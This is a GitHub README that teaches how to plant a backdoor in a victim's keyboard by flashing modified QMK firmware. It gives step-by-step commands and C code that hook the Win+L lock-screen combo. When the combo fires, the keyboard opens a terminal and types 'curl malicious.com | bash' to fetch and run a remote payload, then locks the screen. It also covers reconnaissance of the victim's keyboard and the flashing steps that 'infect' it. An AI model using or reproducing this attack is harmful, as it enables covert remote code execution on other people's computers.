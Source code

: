 # QMKhuehuebr
This repo will teach you how to create a "backdoor" on a keyboard using qmk firmware.

## What's QMK?
It's a open source keyboard firmware, read the [documentation](https://docs.qmk.fm) for more info.

## How does this "Backdoor" works?
It hooks a set of keystrokes used for screen locking using the [qmk combo](https://docs.qmk.fm/#/feature_combo?id=combos) feature, so when the user locks the computer his keyboard will start acting like a [rubberducky](https://www.youtube.com/watch?v=JwLRjNPrO2c) or "possessed" keyboard injecting keystrokes in the target machine.

## Steps to get a Shell
### Keyboard Recon
The most important step is to recognize which PCB your victim's keyboard uses. This can be
done in several ways:
* Social Engineering
* Opening the keyboard case
* Being a keyboard guru

### Get QMK Firmware Project
```bash
git clone https://github.com/qmk/qmk_firmware.git
cd qmk_firmware
util/(linux|macos)_install.sh
```

### Enabling and Configuring Combos feature
Now that you know your victim's keyboard PCB, go to `qmk_firmware/keyboards/<PCB_MODEL>/` and then add the line `COMBO_ENABLE = yes` at the last line of file `rules.mk`, to enable the usage of combos. Also modify the following lines at the last line of file `config.h`:
```
#define COMBO_COUNT 1
#define COMBO_TERM 300
```
The `COMBO_COUNT` variable is the number of combos/hooks you'll configure, and the `COMBO_TERM` is the time in milliseconds for the firmware to detect the key combination/combo.

### Creating the Combos/Hooks
Copy the default keymap to a new keymap named keylogger,
```bash
cd qmk_firmware/keyboards/<PCB_MODEL>/keymaps
mkdir keylogger
cp -R default/* keylogger
cd keylogger/
```
Edit the `keymap.c` file to insert your malicious code after the `#include "action_layer.h"` line, the first thing you need to do is create an enum with your hook name:
```C
enum combo_events {
  LOCK_SCREEN
}
```
Then you need to set the key combinations you want to hook, in this example let's hook the WIN+L lock screen bind:
```C
const uint16_t PROGMEM lock_screen_combo[] = {KC_LGUI, KC_L, COMBO_END};
```
If you want to hook other keys just look at this [qmk documentation page](https://beta.docs.qmk.fm/features/keycodes_basic) where you can find a list with all keycodes.

### Giving actions to Combos/Hooks
Now the last part of coding is to add an action when the firmware detects the combo/hook, in order to do this, let's keep editing the `keymap.c` and declare the function bellow which is responsible for the detection and injection:
```C
void process_combo_event(uint8_t combo_index, bool pressed) {
	switch(combo_index) {
		case LOCK_SCREEN_X:
			if (pressed) {
				// SEND THE COMBINATION KEYS TO OPEN TERMINAL WIN+ENTER
				register_code(KC_LGUI);
				register_code(KC_ENTER);
				// RELEASE THE KEYS TO OPEN THE TERMINAL
				unregister_code(KC_ENTER);
				unregister_code(KC_LGUI);
				//WAIT 500 MILLISECONDS FOR THE TERMINAL OPEN
				_delay_ms(500);

				//SEND COMMAND USING THE MACRO SEND_STRING WHICH SENDS KEYCODE BY KEYCODE WITHOUT DELAY
				SEND_STRING("curl malicious.com \\| bash ; exit" SS_TAP(X_ENTER));

				//SEND THE ORIGINAL KEYCODES RESPONSIBLE TO LOCK THE COMPUTER
				register_code(KC_LGUI);
				register_code(KC_L);
				// RELEASE THE KEYS RESPONSIBLE TO LOCK THE COMPUTER
				unregister_code(KC_L);
				unregister_code(KC_LGUI);
			}
	}
break;
}
```
### Compile the code
Go back to the qmk project root directory and run:
```bash
make <KEYBOARD_PCB>:keylogger
```
If there was no errors, you did everything right and is ready to move on.

### Boot Mode
In order to put the keyboard on boot mode, follow the QMK [instruction](https://docs.qmk.fm/#/newbs_flashing?id=put-your-keyboard-into-dfu-bootloader-mode)

### Write the malicious firmware
Just run the command:
```bash
sudo make <KEYBOARD_PCB>:keylogger:dfu
```
Now after all these steps you have successfully infected your victim's keyboard.

### Learn more about QMK
[RTFM](https://docs.qmk.fm/)

# Example
You can find a more complex example of [keymap.c](xd60/keymaps/keylogger/keymap.c) on this repository.

**IMPORTANT - This file is based on xd60 PCB.**

# Poc 
PoC usign a xd60 PCB

[![CODE_IS_CHEAP_SHOW_ME_THE_DEMO](http://img.youtube.com/vi/CbhiKdS48lc/0.jpg)](http://www.youtube.com/watch?v=CbhiKdS48lc)
